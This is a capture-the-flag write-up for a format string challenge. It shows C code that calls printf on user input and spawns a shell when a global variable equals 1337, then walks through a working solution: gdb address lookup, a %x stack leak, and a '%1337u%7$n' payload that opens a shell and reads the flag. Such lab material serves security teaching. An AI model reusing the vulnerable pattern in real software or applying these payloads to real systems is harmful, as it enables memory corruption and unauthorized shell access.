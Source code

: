 Format - 70
===========

### Desc:
This program is vulnerable to a format string attack! See if you can modify a variable by supplying a format string! The binary can be found at /home/format/ on the shell server.

### Hint:
There is already a pointer to the variable on the stack! Also, %n may be useful!

### Vulnerable code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

int secret = 0;

void give_shell(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}

int main(int argc, char **argv){
    int *ptr = &secret;
    printf(argv[1]);

    if (secret == 1337){
        give_shell();
    }
    return 0;
}

```

### Getting the flag:

```
(gdb) p &secret
$2 = (<data variable, no debug info> *) 0x804a030 <secret>

$ ./format $(python -c "print '%x.'*7")
ffffd7c4.ffffd7d0.f7e4f39d.f7fc83c4.f7ffd000.804852b.804a030.

$ ./format '%1337u%7$n'                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               $ id
$ id
uid=13315(pico22418) gid=1008(format) groups=1017(picogroup)
$ cat flag.txt
who_thought_%n_was_a_good_idea?
```
